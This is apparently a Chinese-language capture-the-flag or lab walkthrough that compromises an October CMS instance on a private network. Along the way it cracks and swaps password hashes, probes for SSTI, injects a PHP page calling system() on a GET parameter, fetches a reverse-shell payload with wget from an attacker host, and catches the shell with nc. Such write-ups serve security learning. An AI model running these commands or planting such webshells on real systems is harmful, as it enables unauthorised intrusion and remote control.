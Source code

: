 	- http://192.168.1.138/backend/backend/auth/signin
	- 使用 `frank` 做為帳號登入
	- 但我們需要知道密碼是什麼 QQQ
- 暴力破解?
	- `john frank.txt --wordlist=rockyou.txt`
	- 在我家的超級電腦跑了 10 分鐘也沒有結果，看起來應該不是
	- ![](https://i.imgur.com/q3LGq1D.png)
- 這到底是什麼 hash?
	- 使用這個網站 https://www.tunnelsup.com/hash-analyzer/
	- 貼上 hash 值
		- `$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK`
	- 可以自動分析出他叫做 `bcrypt`
	- ![](https://i.imgur.com/u3aWPHT.png)
- 我們可以尋找 bcrypt 的產生器，幫我們產出一組符合規格的 hash
	- https://bcrypt-generator.com/
	- 我們隨便輸入一組密碼
	- `meowmeow12345`
		- 他就產出惹
			- `$2a$12$LnBY8Lzpcq1/Z90x41QZT.fkJKfcWvFtYzQc9Ex4vzAHSvFLn6.Ce`
	- 但登入卻一直噴錯 QQ
	- 繼續挖 DB 會發現帳號被 suspend 了QQ
	- 那我們就直接把這一筆刪掉ㄅ !!
	- ![](https://i.imgur.com/2T2VvTU.png)

- 另外還觀察到使用者的 DB 裡面有一組 persist_code
	- 暫時不知道是幹嘛的，先存下來備用
	- `$2y$10$hnhKQ8hTe9b3SoZgXhBuT.HG17VvEdBXe86hEq1qdIknkcM1rbxYi`
- 順利登入 CMS
	- 想試試看在上傳檔案的地方上傳 webshell
	- 或是透過修改檔名之類的方法先傳 .txt 再改 .php 都失敗
	- ![](https://i.imgur.com/9RDaQBc.png)
- SSTI
	- 在 CMS 的 Assets 地方發現可以 SSTI
	- ![](https://i.imgur.com/SRSocAR.png)
	- ![](https://i.imgur.com/AmiKy79.png)
	- ![](https://i.imgur.com/LuVKN0w.png)
	- 輸入錯誤的資料會爛掉
		- ![](https://i.imgur.com/OxxIjH5.png)
		- 從 Debug 頁面可以看出他是使用 `TWIG` 做為模板引擎
	- ![](https://i.imgur.com/g94JVY1.png)
	- 嘗試使用一些測試的 Payload
	- 但大多數都失敗 QQ
- 插入 Command
	- 在 October CMS 上，可以看到
	- https://octobercms.com/docs/cms/pages
	- 可以直接插入 Code
	```php
	function onStart()
	{
	system($_GET['A']);
	}
	```
	- ![](https://i.imgur.com/mQPbbei.png)
	- 然後就成功ㄌ!
	- ![](https://i.imgur.com/KvAUDOZ.png)
## 進入系統
- 嘗試用 Command 載 reverse shell
	- `192.168.1.138/?A=wget 192.168.1.106:8000/s_l -O /tmp/s`
	- ![](https://i.imgur.com/TiE2BOj.png)
- 戳 Reverse shell
	- `nc -nvlp 7877`
	- ![](https://i.imgur.com/C1Uw9co.png)
	- 成功!